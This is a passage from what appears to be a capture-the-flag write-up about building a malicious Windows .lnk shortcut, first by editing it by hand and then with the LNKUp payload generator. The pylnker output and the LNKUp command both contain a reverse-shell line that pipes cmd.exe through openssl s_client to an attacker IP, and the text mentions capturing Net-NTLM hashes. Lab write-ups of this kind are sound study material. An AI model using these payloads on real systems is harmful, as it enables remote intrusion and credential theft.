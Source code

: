 #### Windows

I’ll move the lnk file to a Windows VM and right click on it and select
properties. There I’ll edit the target:

![1542293991625](https://0xdfimages.gitlab.io/img/1542293991625.png)

When I bring this back to my Kali host, I’ll verify with `pylnker` that it
looks like I want it:

    
    
    root@kali# python /opt/pylnker/pylnker.py vs-mod.lnk 
    out:  Lnk File: vs-mod.lnk
    Link Flags: HAS SHELLIDLIST | POINTS TO FILE/DIR | NO DESCRIPTION | HAS RELATIVE PATH STRING | HAS WORKING DIRECTORY | HAS CMD LINE ARGS | NO CUSTOM ICON
    File Attributes: ARCHIVE
    Create Time:   2010-11-20 22:23:55.516901
    Access Time:   2010-11-20 22:23:55.516901
    Modified Time: 2010-11-20 22:23:55.532503
    Target length: 345088
    Icon Index: 0
    ShowWnd: SW_NORMAL
    HotKey: 0
    Target is on local volume
    Volume Type: Fixed (Hard Disk)
    Volume Serial: f06e7663
    Vol Label: 
    Base Path: C:\Windows\System32\cmd.exe
    (App Path:) Remaining Path: 
    Relative Path: ..\..\..\Windows\System32\cmd.exe
    Working Dir: D:\Program Files (x86)\Microsoft Visual Studio\2017\Community\Common7\IDE
    Command Line: /c c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 | cmd.exe | c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136
    

#### LNKUp

[LNKUp](https://github.com/Plazmaz/LNKUp) is an lnk payload generator written
in python. LNKUp is really designed to work with Responder to capture Net-
NTLM, but I can use it to make the payload I want for this case. To create a
similar lnk file to the one I did above, I’ll run the following:

    
    
    root@kali# python /opt/LNKUp/generate.py --host localhost --type ntlm --out vs-mod.lnk --execute "C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73|cmd.exe|C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136"
    
      ~==================================================~
    ##                                                    ##
    ##  /$$       /$$   /$$ /$$   /$$ /$$   /$$           ##
    ## | $$      | $$$ | $$| $$  /$$/| $$  | $$           ##
    ## | $$      | $$$$| $$| $$ /$$/ | $$  | $$  /$$$$$$  ##
    ## | $$      | $$ $$ $$| $$$$$/  | $$  | $$ /$$__  $$ ##
    ## | $$      | $$  $$$$| $$  $$  | $$  | $$| $$  \ $$ ##
    ## | $$      | $$\  $$$| $$\  $$ | $$  | $$| $$  | $$ ##
    ## | $$$$$$$$| $$ \  $$| $$ \  $$|  $$$$$$/| $$$$$$$/ ##